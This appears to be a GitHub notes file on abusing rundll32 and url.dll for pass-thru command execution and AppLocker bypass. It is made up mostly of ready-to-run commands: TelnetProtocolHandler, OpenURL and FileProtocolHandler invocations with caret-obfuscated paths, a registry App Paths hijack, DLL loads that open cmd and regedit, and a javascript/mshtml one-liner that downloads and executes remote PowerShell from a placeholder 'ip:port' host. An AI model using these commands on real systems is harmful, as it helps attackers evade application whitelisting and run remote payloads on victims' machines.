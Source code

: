 # PASS-THRU COMMAND EXECUTION WITH ‘TelnetProtocolHandler’
https://twitter.com/nas_bench/status/1432781693279248390

1. create "telnet.exe" key in the "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths" registry
2. Set the "Default" key to any executable you want to run. 
3. Call it in CMD by running:
```
rundll32.exe url.dll,TelnetProtocolHandler
```

# PASS-THRU COMMAND EXECUTION WITH ‘OPENURL’
https://bohops.com/2018/03/17/abusing-exported-functions-and-exposed-dcom-interfaces-for-pass-thru-command-execution-and-lateral-movement/
### URL FILE EXAMPLE (‘CALC.URL’)
```
[InternetShortcut]
URL=file:///c:\windows\system32\calc.exe
```
### COMMAND EXAMPLES
```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
rundll32.exe url.dll, OpenURL <path to local URL file>
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```
```
rundll32.exe url.dll,OpenURL "C:\test\calc.hta"	 
rundll32.exe url.dll,OpenURL "C:\test\calc.url"	 
rundll32.exe url.dll,OpenURL file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e	 
```
# PASS-THRU COMMAND EXECUTION WITH ‘FileProtocolHandler’
https://strontic.github.io/xcyclopedia/library/url.dll-3B193173A517524600C63D60FE3C0771.html
```
rundll32.exe url.dll,FileProtocolHandler calc.exe	 
rundll32.exe url.dll,FileProtocolHandler file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e	 
rundll32.exe url.dll,FileProtocolHandler file:///C:/test/test.hta
```


DLL Exports:
1. TelnetProtocolHandler	
2. TelnetProtocolHandlerA	
3. OpenURL	
4. OpenURLA
5. URLAssociationDialogA
6. URLAssociationDialogW
7. TranslateURLA
8. TranslateURLW
9. MIMEAssociationDialogW
10. FileProtocolHandler
11. FileProtocolHandlerA
12. AddMIMEFileTypesPS
13. AutodialHookCallback
14. MailToProtocolHandlerA
15. MIMEAssociationDialogA
16. InetIsOffline	
17. MailToProtocolHandler




# Applocker Bypass
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/

The following command needs to be executed from the command prompt. If the command prompt is locked then the method that is described below can be used to unlock the cmd.
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
```

The utility rundll32 can then load and execute the payload that is inside the pentestlab.dll.
```
rundll32 shell32.dll,Control_RunDLL C:\Users\pentestlab.dll
```
## Open Command Prompt
Since the rundll32 is a trusted Microsoft utility it can be used to load the cmd.dll into a process, execute the code on the DLL and therefore bypass the AppLocker rule and open the command prompt. The following two commands can be executed from the Windows Run:
```
rundll32 C:\cmd.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\cmd.dll
```
## Open Registry Editor


The following commands can load and run the regedit.dll via rundll32 and therefore bypass the AppLocker rule.
```
rundll32 C:\regedit.dll,EntryPoint
```
OR
```
rundll32 shell32.dll,Control_RunDLL C:\regedit.dll
```




# Extra References
1. https://strontic.github.io/xcyclopedia/
2. https://lolbas-project.github.io/
3. 
